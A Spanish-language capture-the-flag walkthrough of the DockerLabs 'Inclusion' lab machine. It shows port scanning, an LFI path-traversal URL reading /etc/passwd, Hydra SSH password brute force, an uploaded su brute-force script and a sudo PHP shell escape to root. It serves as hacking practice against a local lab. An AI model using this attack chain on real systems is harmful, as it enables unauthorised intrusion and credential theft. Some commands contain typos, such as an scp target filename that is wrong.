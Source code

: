 Deplegamos maquina de dockerlabs con

`sudo ./auto_deploy.sh inclusion.tar`

hacemos un brarido con **nmap** para lista los puertos abiertios usando 

`sudo nmap -p- --open -sS -sCV --min-rate 5000 -n -Pn -vvv 172.17.0.2 -oN scaning.txt`

![Pasted image 20240729151923](https://github.com/user-attachments/assets/1e4e6bcb-55ed-4986-a150-3fbf0cce05bc)

Ok lugo de hacer el barido de puertos obsevamos que la maquina tiene abiertos el puerto **22, 80** puertos comunes que ya conecemos. Analisando cada puerto obesrvamos que puerto 22 **SSH** con una version de **OpenSSH  9.2p1** no tan actual pero de igunamente no nos permite usar exploits para enuemar usaurios como lo es el  **Username Enumeration**. y finalmente  el puerto 80 **http** en el cual vemos en que tien un titulo comun de la paguina de muestra de apache  en su sitio web ya que es un **APACHE  2.4.57**  asi que vamos al navegador y veamos.

![Pasted image 20240729152310](https://github.com/user-attachments/assets/e6dbf563-9a6b-4c8e-9d3f-20426459c976)

nada estraño ni haciendo CTRL + U vemos comentarios que nos de pistas asi que recurimos a gobuster para realizar fuzzing y que otras rutas hay en el sito web. 

`gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r`

![Pasted image 20240729152738](https://github.com/user-attachments/assets/7196372d-1438-45fe-858c-4f3ef2a4bc7e)

vemos que gobuster  nos encontro dos rutas una con estado **200 OK**  llamada  **shop** y un **server-status** no tan interesante asi que nos dirigimos a la ruta *shop*

![Pasted image 20240729153133](https://github.com/user-attachments/assets/cb793863-9b4c-41b5-a8cc-e0c6038bbe1b)
 analizando la paguina vemos que es una imgen de un teclado y un titilo que dice *Tienda de Teclado*  pero lo vemos que es intereando es lo que hay que la esquina inferior izquierda de la pantalla vemo un erro que dice Error de Sistema y vemos que trata de llamar a un archivo del sistema por el metodo GET esto meda un idea de implementar algo como **URL/?archivo=index.php** porque php porque el Wappalyzer no indica **PHP**.

![Pasted image 20240729154229](https://github.com/user-attachments/assets/94f1061a-0f03-4bd2-a887-ed6ceaaad588)

OK,  como sabemos esto de archivos es un copsecto de path Travesal con LFI, asi que listaremos el el /etc/passwd con el siguiente link

`http://172.17.0.2/shop/?archivo=../../../../etc/passwd` 
 y obtenemos el siguiente resultado
![Pasted image 20240729163032](https://github.com/user-attachments/assets/466d8ef3-b84e-4c63-85a9-a83bc89b74ca)

si vemos esto es la info de passwd y vemos usuarios con **root** **www-data**,  **seller**, **manchi** uno muy interesante sabiendo que estan estos usuarios intentaremos hacer un brute force para inicar secion en SSH con Hydar

`hydra -l seller -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4`
`hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4`

![Pasted image 20240729163728](https://github.com/user-attachments/assets/01921485-2620-4af8-be95-cf0eedb66820)

bingo ya que con el usuario **seller** no tuvimos suerte intentamos con el usuario **manchi** y obtivimos un un password que podemos usar el cual es **lovely**  

asi que  iniciamos secion en ssh con 

`shh manchi@172.17.0.2` 

![Pasted image 20240729164142](https://github.com/user-attachments/assets/e8d0c47a-21a4-4d81-90a0-0c49965d1cc6)

y ya somos el usurio manchi ahor vemos si tenmos algun arcivo sudo con **sudo -l** pero no tenemos suerte asi que buscamos alguno alchivo **SUID** con `find / -perm -4000 -ls 2>/dev/null`  pero no tenemos nada.  asi que en esta aocacion usaremos el archivo  de fuerza bruta  [Maalfer/Sudo_BruteForce: Script hecho en bash para realizar un ataque de fuerza bruta a un usuario de un sistema Linux. (github.com)](https://github.com/Maalfer/Sudo_BruteForce/tree/main)   para realizar un ataque a un usuario.  los paso que arremos son los siguiente.


con este primer comando desacrmos el script a nuestra maquina actacante. 

`wget https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh` 

y el segundo copiamos el rockyou. 

`cp /usr/share/wordlists/rockyou.txt .` 

en vista que la maquina no tiene ni curl y wget para transferir archivo usaremos scp 

`scp rockyou.txt manchi@172.17.0.2:/home/manchi/rockyou.txt
`scp Linux-Su-Force.sh manchi@172.17.0.2:/home/manchi/rockyou.txt``

con el primero copiamos el rockyou y el segundo el bash para crackear el password de usurios seller. en abas acaciones escribiel password de manchi.

![Pasted image 20240729170927](https://github.com/user-attachments/assets/4d33c6a3-ebc1-4fc8-be5d-ddbb18d02313)

![Pasted image 20240729171031](https://github.com/user-attachments/assets/b89f4f16-d1cb-4c4a-bd40-a9a57e9476c6)

ahora como podemo ver en la maquina victima el ya estan los archivos asi que ahora ejecutamos el archivo de la siguinte manera

`./Linux-Su-Force.sh seller rockyou.txt` 

![Pasted image 20240729171535](https://github.com/user-attachments/assets/71b78946-a584-4cd4-bb0f-a8fff55ca405)

y vemos que obtenemos un password **qwerty** . algunas recomendaciones si no encuntra el password a la primera ejecuten varias veces el script.

ahora con inicamos secion con seller 

`su seller` 

![Pasted image 20240729171757](https://github.com/user-attachments/assets/7b6cb3d6-87e2-4f15-ae56-e9f48d370f54)

y ahora de nuevo usamso **sudo -l** para ver que permiso sudo tenemos para ejecutar encontramos  **/usr/bin/php**  asi que vamos GTFOBins  y buscamos php

![Pasted image 20240729172101](https://github.com/user-attachments/assets/9a953614-b6ca-4741-b99f-2808f9e461c8)
y vemos que comi sudo podemo escalar privilejios usando  

`sudo -u root /usr/bin/php -r "system('/bin/bash');"`

![Pasted image 20240729172642](https://github.com/user-attachments/assets/f6f2eae1-7105-40af-ac6e-22714e8efeb8)


y asi consegimo el root en el machina inclution

`by juandas13` 














 
